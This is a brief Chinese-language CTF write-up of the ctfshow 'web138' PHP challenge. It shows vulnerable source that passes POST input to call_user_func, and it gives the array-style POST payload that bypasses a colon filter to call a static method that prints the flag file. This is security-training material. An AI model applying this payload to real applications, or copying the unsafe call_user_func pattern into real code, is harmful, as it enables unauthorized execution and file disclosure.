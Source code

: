 # web138

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 22:52:13

*/

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);


```

![image-20221005170206720](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051702784.png?x-oss-process=hzy)

用这个函数也就是过滤：的意思

call_user_func中不但可以传字符串也可以传数组

> call_user_func(array($classname, 'hello'));
> 此时会调用 classname中的 hello方法

所以这道题目就可以这样

```
ctfshow[0]=ctfshow&ctfshow[1]=getflag
```

![image-20221005170809291](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051708365.png?x-oss-process=hzy)


